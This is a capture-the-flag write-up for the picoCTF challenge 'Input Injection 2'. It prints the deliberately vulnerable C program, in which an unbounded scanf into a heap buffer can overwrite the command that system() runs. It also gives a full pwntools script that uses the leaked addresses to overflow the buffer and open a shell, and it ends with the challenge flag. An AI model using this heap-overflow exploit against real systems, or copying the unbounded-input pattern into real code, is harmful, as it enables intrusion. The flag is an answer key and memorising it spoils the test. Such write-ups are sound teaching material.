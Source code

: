 # Input Injection 2

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/d32a86b3-0e2c-44d9-a40c-cc79fa27a618" />

**Tag:** `Binary Exploitation` `browser_webshell_solvable`

**Description:** 
> This program greets you and then runs a command. But can you take control of what command it executes? Connect to the program with netcat: nc saffron-estate.picoctf.net 63959. You can Download the program file here. And source code

**Attachments:** `vuln` `vuln.c`

**Hints:**

<details>
<summary>Hint 1</summary>

Notice how username and shell are both heap-allocated.

</details>

<details>
<summary>Hint 2</summary>
  
Offsets often hide in the memory addresses you see at runtime.

</details>

<details>
<summary>Hint 2</summary>
  
Try to overwrite what command gets executed.

</details>

**Author:** Yahaya Meddy

**Solved:** `640 users solved`

---

# Solution

given 2 files. one is elf and the other is source code. this is the content of the source code file

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(void) {
	char* username = malloc(28);
	char* shell = malloc(28);
	
	printf("username at %p\n", username);
    fflush(stdout);
	printf("shell at %p\n", shell);
    fflush(stdout);
	
	strcpy(shell, "/bin/pwd");
	
	printf("Enter username: ");
    fflush(stdout);
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
    fflush(stdout);
	
	return 0;
}
```

and here is the security of the elf file

```bash
 zsh > checksec --file=vulnn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0      1vulnn
```

So my strategy for exploiting this challenge is very simple. The second hint states that the memory address offset is often hidden in the runtime that we see. And when running nc from the challenge

```bash
 zsh >  nc saffron-estate.picoctf.net 63959
username at 0x1dde82a0
shell at 0x1dde82d0
Enter username: admin
/home/ctf-player
Hello, admin. Your shell is /bin/pwd.
```

Well, since we have a leak address between the username and the shell, we just need to reduce the distance between them to get the offset. So this is how my exploitation script looks like

```python
from pwn import remote
import re

HOST = "saffron-estate.picoctf.net"
PORT = 64934

p = remote(HOST, PORT)
data = p.recvuntil(b"Enter username: ")
# print(data.decode(errors="ignore"))

user_addr = int(re.search(rb"username at (0x[0-9a-fA-F]+)", data).group(1), 16)
shell_addr = int(re.search(rb"shell at (0x[0-9a-fA-F]+)", data).group(1), 16)

print(hex(user_addr))
print(hex(shell_addr))

offset = shell_addr - user_addr
print(hex(offset))

payload = b"A" * offset + b"/bin/sh\x00"
p.sendline(payload)
p.interactive()
```

A brief explanation. So, in the script, I created a regex to read the leaks leaked by NC. Next, when the leak is successfully read, we will subtract the user_addr from the shell_addr. And when we get the offset, we will send payload A as much as the offset and also send the shell to NC.

Once everything is ready, let's run and get the flag.

<img width="500" height="216" alt="image" src="https://github.com/user-attachments/assets/db5866f9-e735-4028-ad94-3dd87805203d" />

and yes we managed to get the shell. lets list the directory

<img width="162" height="94" alt="image" src="https://github.com/user-attachments/assets/87a5afac-ba3b-413a-b734-e2d09abd50ff" />

yeah got it. lets goo

<img width="476" height="128" alt="image" src="https://github.com/user-attachments/assets/0fda35f3-9a79-4c20-b080-523762ac624a" />

---

# FLAG: picoCTF{us3rn4m3_2_sh3ll_48b038ff}
